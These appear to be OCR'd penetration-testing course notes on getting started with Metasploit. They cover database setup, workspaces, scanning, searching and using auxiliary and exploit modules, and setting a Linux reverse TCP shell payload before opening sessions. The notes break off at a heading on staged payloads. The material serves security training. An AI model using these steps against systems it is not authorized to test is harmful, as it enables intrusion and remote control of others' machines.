 # 20.1. Getting Familiar with Metasploit

## 20.1.1. Setup and Work with MSF

```bash
sudo msfdb init

sudo systemctl enable postgresql

sudo msfconsole
```

```bash
db_status
help
workspace
workspace -a pen200
db_nmap
hosts
services
show -h
```

## 20.1.2. Auxiliary Modules

```bash
show auxiliary
search type:auxiliary smb
use $MODULE_NUMBER
info
show options
set $NAME_OPTION $VALUE
run
```

## 20.1.3. Exploit Modules

```bash
workspace -a exploits
search $APPLICATION_NAME $APPLICATION_VERSION

set payload payload/linux/x64/shell_reverse_tcp

sessions -l
sessions -i $SESSION_NUMBER
```

# 20.2. Using Metasploit Payloads

## 20.2.1. Staged vs Non-Staged Payloads
